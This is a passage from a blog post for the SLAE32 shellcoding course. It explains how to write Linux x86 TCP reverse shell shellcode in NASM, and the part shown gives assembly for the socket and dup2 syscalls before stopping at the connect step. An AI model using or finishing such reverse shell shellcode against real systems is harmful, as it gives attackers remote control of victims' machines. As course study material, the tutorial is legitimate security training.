 ```yaml
---
layout: single
title: TCP Reverse Shell for Linux x86
date: 2019-9-19
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Reverse Shell TCP
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
How many time you used the msfvenom command to craft a reverse shell for your scopes?
In my case, many times but all i have to do is give to msfvenom the right inputs and voilà, it gives us the shellcode ready to use.
We have already learnd how to build a bind shellcode in the [previous post](https://bolonobolo.github.io/SLAE32-1/), in this article we would inspect the shellcode process to craft a tcp reverse shell in depth, written to analyse what are the components needed to build a x86 Linux shellocode. 
This is also the second assignment from Viviek Ramchandran's SLAE32 course.<br>
The first part of the assignment request to create a Shell_Reverse_TCP shellcode with these properties:
- Reverse connects to configured IP and Port
- Execs Shell on sucessfull connection

The second part request to create a script to make IP and port number easily configurable.<br>
According with [Infosec Institute](https://resources.infosecinstitute.com/icmp-reverse-shell/), reverse shell could be defined like a back connection from the victim to the attacker, in this case most of the rules of a potential firewall behind the victim are useless.
> *A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved.* <br>
The last video lesson of SLAE course analyzes a tcp reverse shell payload created with msfvenom so the creation process is well documented like the shell structure, so the effort for this assignment is to pickup informations about all the syscalls needed for the tcp reverse shell using the linux kernel unistd.h header and the ```man 2``` command.
We will use also the book 
[Unix Network Programming](https://www.amazon.com/UNIX-Network-Programming-Richard-Stevens/dp/0139498761), foundamental to learn the substructures required in some syscalls.
We start reviewing the case study in the course and reading the png created with sctest of libemu tool suite, with that informations we can extract the syscalls needed to build our reverse shellcode:

- socket
- dup2 (3 times)
- connect
- execve

we could simply copy the assembly code, but this is not the scope of the Viviek's assignment. What he would to obtain with the assignment is to understand how we should develop a shellcode, starting from learn the linux syscalls, what we need to complete assignment and how we can transform the syscall and its argument in assembly code.<br>
Has said before we have already learnd how to build a bind shellcode in the [previous post](https://bolonobolo.github.io/SLAE32-1/), but i think a review couldn't damage us, so let's start the fun part.

## SOCKET
We can start searching the socket syscall by cat'ting the unistd_32 headers of the linux kernel, then check the socket syscall man page.<br>
![](/assets/images/SLAE32/assignment_1/socket_1.png)<br>
```C
man 2 socket
```
```C
int socket(int domain, int type, int protocol);
```
Mmm, seems the socket accept 3 arguments, now we can check also the book to learn what's the role of there arguments.<br>
```int domain``` specifies a communication domain, this means that it specifies the Address Family (AF_xxxx) wich will be used for communication.<br>
```int type``` specifies the communication semantics.<br>
Not all combinations of socket domain and type are valid, we want a TCP bind shell, so according to the book, our choices has to be ```AF_INET``` for the domain and ```SOCKET_STREAM``` for the type.<br>
![](/assets/images/SLAE32/assignment_1/socket_0.png)<br>
According to what we have studied in the course, the informations found with the ```man 2``` command has to be distribuited with the criteria here explained.
Syscall number has to go in the EAX register, ```int domain``` should be ```AF_INET``` that means a value of 2 saved in the EBX register, ```int type``` should be ```SOCK_STREAM```, that means a value of 1 saved in the ECX register, last ```int protocol``` should be 0 and placed in EDX register.<br>
![](/assets/images/SLAE32/assignment_1/socket_2.png)
![](/assets/images/SLAE32/assignment_1/socket_3.png)<br>
Now that we have indentified the socket syscall arguments, what have to be they values and in what register they has to be pushed we can proceed writing the assembly code.
Note that the socket syscall return an output that is the pointer to the socket itself and will be stored in EAX register, so in order to recover the pointer to the socket for future uses we have to move it in a safer place like the EDI register.
```nasm
; Filename: bind_shell.nasm
; Author:  SLAE-1476
; twitter: @bolonobolo
; email: bolo@autistici.org / iambolo@protonmail.com

global _start

section .text
_start:

    ; SOCKET
    ; xoring the registers
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx
    mov cl, 0x01
    mov bl, 0x02
    mov ax, 0x167
    int 0x80

    ; move the return value of socket from EAX to EDI
    mov edi, eax
```
Well, we can move to the next syscall.

## DUP
We need to find the value of the syscall and consult the man page.
![](/assets/images/SLAE32/assignment_1/dup_0.png)<br>
![](/assets/images/SLAE32/assignment_1/dup_1.png)<br>
The dup() system call creates a copy of the file descriptor oldfd, using the lowest-numbered unused descriptor for the new descriptor.
Another simple syscall, in EAX we store the hexadecimal value of 63, 0x3f, in EBX we store the address of the accepted connection by ```accept``` syscalll and saved in EDI register, last in ECX we have to save the value of all possibly file descriptor, in UNIX system they are stdin, stdout and stderr, respectively with value 0, 1 and 2.
In this case we have to execute the dup2 syscall 3 times, for stdin, stdout and stderr, using a loop.<br>
Here's the assembly code

```nasm
    ; DUP2
    xor ebx, ebx
    xor ecx, ecx
    mov cl, 0x3

dup2:
    xor eax, eax
    mov ebx, edi
    mov al, 0x3f
    dec cl
    int 0x80
    jnz dup2
```

## CONNECT
We need to find the value of the syscall and consult the man page.
